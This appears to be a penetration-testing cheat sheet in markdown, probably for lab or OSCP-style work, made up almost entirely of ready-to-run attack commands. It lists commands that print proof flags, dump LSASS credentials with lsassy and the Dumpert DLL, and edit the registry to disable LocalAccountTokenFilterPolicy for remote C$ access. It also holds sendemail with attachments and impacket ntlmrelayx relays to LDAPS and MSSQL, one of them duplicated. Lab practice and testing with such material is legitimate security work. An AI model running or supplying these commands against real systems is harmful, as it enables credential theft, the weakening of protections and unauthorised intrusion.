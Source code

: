 ## Proof.txt Linux 2
```
whoami && hostname && ifconfig && cat proof.txt
```

## Proof.txt Windows
```
whoami && hostname && ipconfig && type proof.txt
```

## lsassy
```
lsassy -d <domain> -u username -p <password <IP> -m dumpertdll -O dumpertdll_path=/home/kali/tools/Outflank-Dumpert-DLL.dll
```

# Disable Protection
## Windows disable LocalAccountTokenFilterPolicy (Allow to access C$ remotely)
```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## sendemail
```
sendemail -f <from_email> -t <to_email> -s <SMTP_IP> -u <SUBJECT> -m <content> -a <attachements> -v
```


# ntlmrelayx

## ntlmrelayx Ldap
```
ntlmrelayx.py -6 -wh wpadfakeserver.essos.local -t ldaps://<target> -l /save/loot
```

## ntlmrelayx MSSQL
```
impacket-ntlmrelayx --no-http-server -smb2support -t mssql://<target> -q "SELECT SYSTEM_USER"
```

## ntlmrelayx MSSQL
```
impacket-ntlmrelayx --no-http-server -smb2support -t mssql://<target> -q "SELECT SYSTEM_USER"
```

